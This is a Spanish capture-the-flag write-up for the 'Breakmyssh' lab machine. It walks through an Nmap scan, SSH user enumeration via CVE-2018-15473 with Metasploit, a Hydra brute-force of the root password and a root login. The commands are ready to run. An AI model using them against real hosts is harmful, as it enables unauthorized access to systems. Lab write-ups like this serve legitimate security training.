





# 🛡️ Write-Up: Breakmyssh.zip

- **Dificultad:** Muy fácil  
- **Objetivo:** Obtener acceso inicial y escalar privilegios  

---

## 🔍 Enumeración

Se descomprime el archivo `Breakmyssh.zip` y se ejecuta la máquina virtual.



Se realiza un escaneo completo de puertos con Nmap:

```bash
nmap -p- -sC -sV --open -sS -n -Pn <IP>
```
Parámetros utilizados:

-p-: escaneo de todos los puertos
-sC: scripts por defecto
-sV: detección de versiones
--open: muestra solo puertos abiertos
-sS: SYN scan (sigiloso)
-n: evita resolución DNS
-Pn: omite ping previo



📌 Resultados
•	Puerto 22: SSH 
________________________________________
🔎 Análisis de servicios
Se identifica que el servicio SSH corre en la versión 7.7, la cual es vulnerable a:
CVE-2018-15473 (User Enumeration)
(Esta y otras vulnerabilidades se pueden obtener de páginas como https://nvd.nist.gov/?utm_source=chatgpt.com).
________________________________________
🧪 Enumeración de usuarios
Se utiliza el framework Metasploit para enumerar usuarios válidos:
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS <IP>
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run



Se identifican múltiples usuarios válidos, entre ellos:
•	root 
________________________________________
🔐 Acceso inicial
Se realiza un ataque de fuerza bruta con Hydra:
hydra -l root -P /usr/share/wordlists/xato-net-10-million-passwords-10000.txt ssh://<IP>



Se obtiene la contraseña del usuario root.
________________________________________
👑 Acceso al sistema
Se accede vía SSH:
ssh root@<IP>



Se obtiene acceso como usuario root.
________________________________________
✅ Conclusión
•	Se explotó una vulnerabilidad de enumeración de usuarios en SSH 
•	Se realizó un ataque de fuerza bruta 
•	Se obtuvo acceso root al sistema 
________________________________________
📚 Lecciones aprendidas
•	Analizar versiones de servicios es clave 
•	La enumeración es una fase crítica 
•	Muchas vulnerabilidades permiten facilitar ataques posteriores

